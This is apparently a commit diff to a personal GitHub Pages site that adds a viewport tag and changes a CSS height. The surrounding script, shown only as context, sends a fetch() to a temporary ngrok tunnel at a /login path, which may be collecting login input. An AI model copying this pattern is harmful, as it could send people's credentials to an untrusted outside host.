

Before and after one commit to JaySoni7777/jaysoni7777.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 164-472 px from the top of the page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
updated code

```diff
--- a/index.html
+++ b/index.html
@@ -20,7 +20,7 @@ fetch("https://0a59-2401-4900-1c1b-8bde-20d2-fd6d-4797-5ebe.ngrok-free.app/login
   .then((response) => console.log(response));
 }
 </script>
-
+<meta name="viewport" content="width=device-width, initial-scale=1" />
 <div id="wrapper">
   <div class="main-content">
     <div class="header">
--- a/style.css
+++ b/style.css
@@ -9,7 +9,7 @@ body {
 
 #wrapper {
   width: 500px;
-  height: 28.5%;
+  height: 65%;
   overflow: hidden;
   border: 0px solid #000;
   margin: 50px auto;
```
